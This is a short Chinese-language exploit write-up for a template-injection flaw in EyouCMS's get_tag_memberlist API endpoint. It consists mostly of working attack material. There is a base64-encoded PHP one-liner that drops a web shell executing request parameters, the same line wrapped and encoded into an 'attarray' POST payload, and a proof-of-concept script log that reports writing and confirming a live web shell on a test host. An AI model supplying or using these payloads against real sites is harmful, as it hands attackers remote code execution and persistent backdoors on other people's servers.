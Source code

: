 ```
file_put_contents("./wait.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==")); 
```

PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==内容：

```
<?php eval($_REQUEST[“w”]);?> 
```

将php标签转换为json格式并加密：

```
print base64_encode(json_encode(array("{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"=>"{php}file_put_contents('./wait.php',base64_decode(\"PD9waHAgYXNzZXJ0KCRfUkVRVUVTVFsidyJdKTs/Pg==\"));{/php}"))); `eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=` 
```

pyload:

```
attarray=eyJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuXC93YWl0LnBocCcsYmFzZTY0X2RlY29kZShcIlBEOXdhSEFnWVhOelpYSjBLQ1JmVWtWUlZVVlRWRnNpZHlKZEtUc1wvUGc9PVwiKSk7e1wvcGhwfSI6IntwaHB9ZmlsZV9wdXRfY29udGVudHMoJy5cL3dhaXQucGhwJyxiYXNlNjRfZGVjb2RlKFwiUEQ5d2FIQWdZWE56WlhKMEtDUmZVa1ZSVlVWVFZGc2lkeUpkS1RzXC9QZz09XCIpKTt7XC9waHB9In0=&htmlcode=bb 
```

![image](../img/1a87c77eac2d04c4b6bef2d0c59f3fe6.png)

htmlcode参数作为随机方式传递

### poc

```
silly@PenetrationOs:~#: python eyoucms-ssti.py -u http://192.168.1.106:8085/ -o abc `[+] 正在请求目标地址:[http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist](http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist)

[*] 目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist存活

[+] 正在向目标地址http://192.168.1.106:8085/?m=api&c=ajax&a=get_tag_memberlist写入abc.php

[*] 疑似成功写入Webshell

[+] 正在探测Webshell([http://192.168.1.106:8085/abc.php](http://192.168.1.106:8085/abc.php))是否存活

[*] Webshell([http://192.168.1.106:8085/abc.php](http://192.168.1.106:8085/abc.php))已存活

```